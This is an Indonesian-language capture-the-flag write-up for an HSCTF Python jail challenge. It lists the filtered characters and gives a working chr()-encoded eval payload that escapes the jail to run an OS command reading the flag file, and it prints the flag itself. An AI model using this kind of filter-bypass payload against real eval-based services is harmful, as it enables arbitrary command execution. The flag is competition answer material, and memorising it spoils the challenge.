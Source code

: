 ## Diketahui
Koneksi python jail dengan koneksi `nc paas.hsctf.com 1337`

Setelah itu coba inputkan karakter namun terdapat filter diantaranya
> `'`, `"`, `_`, `[`, `]`, `.`

Namun disini terdapat fungsi eval yang tidak dilakukan filter, operator `+`, dan juga `()`

## Solusi
Bypass dengan cara menggunakan modul __import__ untuk memanggil `os system` dan mendapatkan flagnya, namun payload tersebut perlu dirubah ke unicode code / ord dan dimasukkan kedalam fungsi eval

> eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(99)+chr(97)+chr(116)+chr(32)+chr(102)+chr(108)+chr(97)+chr(103)+chr(39)+chr(41))

Flag = flag{vuln3r4b1l17y_45_4_53rv1c3}
